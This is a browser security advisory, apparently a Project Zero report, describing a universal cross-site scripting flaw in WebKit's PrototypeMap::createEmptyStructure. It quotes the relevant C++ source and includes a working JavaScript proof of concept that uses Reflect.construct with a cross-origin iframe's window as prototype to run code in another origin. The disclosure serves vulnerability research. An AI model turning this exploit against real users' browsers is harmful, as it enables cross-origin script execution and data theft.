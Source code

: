 # UXSS via PrototypeMap::createEmptyStructure

> Reported by lokihardt@google.com, Jan 17 2017

When creating an object in Javascript, its `Structure` is created with the constructor's prototype's `VM`.

Here's some snippets of that routine.

```cpp
Structure* InternalFunction::createSubclassStructure(ExecState* exec, JSValue newTarget, Structure* baseClass)
{
    ...
    if (newTarget && newTarget != exec->jsCallee()) {
        // newTarget may be an InternalFunction if we were called from Reflect.construct.
        JSFunction* targetFunction = jsDynamicCast<JSFunction*>(newTarget);

        if (LIKELY(targetFunction)) {
            ...
                return targetFunction->rareData(vm)->createInternalFunctionAllocationStructureFromBase(vm, prototype, baseClass);
            ...
        } else {
            ...
                return vm.prototypeMap.emptyStructureForPrototypeFromBaseStructure(prototype, baseClass);
            ...
        }
    }

    return baseClass;
}

inline Structure* PrototypeMap::createEmptyStructure(JSObject* prototype, const TypeInfo& typeInfo, const ClassInfo* classInfo, IndexingType indexingType, unsigned inlineCapacity)
{
    ...
    Structure* structure = Structure::create(
        prototype->globalObject()->vm(), prototype->globalObject(), prototype, typeInfo, classInfo, indexingType, inlineCapacity);
    m_structures.set(key, Weak<Structure>(structure));
    ...
}
```

As we can see `Structure::create` is called with prototype's `vm` and `globalObject` as arguments. So it could lead to an UXSS condition.

Tested on Safari 10.0.2(12602.3.12.0.1) and Webkit Nightly 10.0.2(12602.3.12.0.1, r210800).

Poc:

```js
let f = document.body.appendChild(document.createElement('iframe'))
f.onload = () => {
	f.onload = null

	let g = function() {}
	g.prototype = f.contentWindow

	let a = Reflect.construct(Function, ['return window[0].eval;'], g)
	let e = a()
	e('alert(location)')
}

f.src = 'https://abc.xyz/'
```

Link: https://bugs.chromium.org/p/project-zero/issues/detail?id=1084
